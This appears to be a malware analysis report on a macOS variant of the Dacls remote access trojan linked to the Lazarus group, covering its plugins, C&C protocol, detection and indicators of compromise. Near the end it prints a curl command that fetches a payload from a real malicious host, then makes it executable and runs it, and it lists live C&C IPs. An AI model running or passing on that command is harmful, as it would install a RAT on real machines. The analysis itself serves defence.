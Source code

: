 The config file is constantly updated by receiving commands from the C&C server. The application name after installation is “mina”. Mina comes from the MinaOTP application which is a two-factor authentication app for macOS.    Main Loop After initializing the config file, the main loop is executed to perform the following four main commands:  Upload C&C server information from the config file to the server (0x601)Download the config file contents from the server and update the config file (0x602)Upload collected information from the victim’s machine by calling “getbasicinfo” function (0x700)Send heartbeat information (0x900) The command codes are exactly the same as Linux.dacls.     Plugins This Mac RAT has all the six plugins seen in the Linux variant with an additional plugin named “SOCKS”.  This new plugin is used to proxy network traffic from the victim to the C&C server. The app loads all the seven plugins at the start of the main loop. Each plugin has its own configuration section in the config file which will be loaded at the initialization of the plugin.     CMD plugin The cmd plugin is similar to the “bash” plugin in the Linux rat which  receives and executes commands by providing a reverse shell to the C&C server.     File Plugin The file plugin has the capability to read, delete, download, and search files within a directory. The only difference between the Mac and Linux version is that the Mac version does not have the capability to write files (Case 0).     Process plugin The process plugin has the capability of killing, running, getting process ID and collecting process information.     If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227